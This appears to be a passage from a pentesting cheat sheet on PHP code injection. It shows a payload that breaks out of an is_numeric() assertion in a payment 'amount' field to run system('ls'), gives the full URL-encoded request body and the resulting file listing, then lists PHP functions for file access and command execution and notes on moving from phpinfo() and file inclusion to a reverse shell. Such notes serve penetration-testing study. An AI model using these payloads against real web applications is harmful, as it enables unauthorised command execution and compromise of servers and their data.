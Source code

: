 ```bash
style.css
Assertion Failed:<br/>
            Invalid value for amount<br />
            At line '23' : 'is_numeric('x') or system('ls') and is_numeric('a') !== false'<br />

# break the code syntax
x')																'
# add your payload
or system('ls')
# fix it again
and is_numeric('a																	'

# Join your payload all together
amount=a') or system('ls') and is_numeric('a

# The whole body parameter would be
from=Alice&fromaddr=1234%20Main%20St&to=Bob&toaddr=5678%20Elm%20St&amount=a')%20or%20system('ls')%20and%20is_numeric('a&comments=Payment%20for%20July%20rent&cmd=id

# And the response is
...
addTransaction.php
index.php
license.txt
script.js
style.css
Assertion Failed:<br/>
            Invalid value for amount<br />
            At line '23' : 'is_numeric('x') or system('ls') and is_numeric('a') !== false'<br />
```
{% endcode %}

## Commands and functions

```
https://www.w3schools.com/PHP/php_ref_directory.asp
scandir, file_get_contents("")
getcwd(), get_current_user()

possible to read/write files

execute commands with different functions

require/include abuse
```

## phpinfo() - Find file

{% code overflow="wrap" %}
```sh
Path example is /etc/php5/apache2/php.ini

# check disable_functions to see if we cannot use system, shell_exec, passthru... or anything is allowed
allow_url_include → if on, it allows RFI
file_uploads -> if on, try 

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-phpinfo or https://github.com/roughiz/lfito_rce, search also php file upload boundary to know structure

https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo
Python Script has to be modified to include PHP revshell, change PHPinfo path and also LFI path
```